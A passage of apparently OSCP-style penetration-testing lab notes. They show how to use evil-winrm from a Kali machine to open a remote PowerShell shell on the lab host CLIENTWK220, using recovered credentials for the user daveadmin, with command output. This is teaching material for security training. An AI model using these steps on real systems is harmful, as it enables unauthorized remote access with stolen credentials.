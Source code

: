 ```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir
dir
```
+ Above shows that we received no output from the commands we entered
+ We should note that creating a PowerShell remoting session via WinRM in a bind shell like we used in this example can cause unexpected behavior

To avoid any issues, let's use _evil-winrm_ to connect to CLIENTWK220 via WinRM from our Kali machine instead
+ This tool provides various built-in functions for penetration testing such as pass the hash, in-memory loading, and file upload/download
+ However, we'll only use it to connect to the target system via WinRM to avoid the issues we faced by creating a PowerShell remoting session in our bind shell as shown above

We enter the IP as argument for **`-i`**, the username for **`-u`**, and the password for **-`p`**. We need to escape both `!`s in the password
+ Usage: 
```
evil-winrm -i <IP> -u <USER> -p "<PASSWORD>"
```
+ Example Usage and Output:
```
kali@kali:~$ evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\daveadmin\Documents> whoami
clientwk220\daveadmin

*Evil-WinRM* PS C:\Users\daveadmin\Documents> cd C:\

*Evil-WinRM* PS C:\> dir

    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          6/5/2021   5:10 AM                PerfLogs
d-r---         7/20/2022   1:14 AM                Program Files
d-r---          6/5/2021   7:37 AM                Program Files (x86)
d-----          7/4/2022   1:00 AM                tools
d-r---         6/23/2022   8:12 AM                Users
d-----         7/20/2022   8:07 AM                Windows
d-----         6/16/2022   1:17 PM                xampp
```
+ Above shows, we can now execute commands without any issues. Great!


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd